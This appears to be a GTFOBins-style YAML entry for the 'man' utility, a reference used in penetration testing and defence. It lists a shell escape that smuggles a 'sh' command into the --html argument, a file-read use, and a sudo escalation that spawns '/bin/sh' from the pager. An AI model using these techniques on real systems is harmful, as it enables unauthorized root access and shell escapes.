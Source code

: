 ```yaml
---
description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/less/), other functions may apply.
functions:
  shell:
    - code: |
        man --html='$(sh > /dev/tty)' sh
  file-read:
    - code: man file_to_read
  sudo:
    - code: |
        sudo man man
        !/bin/sh
---
```

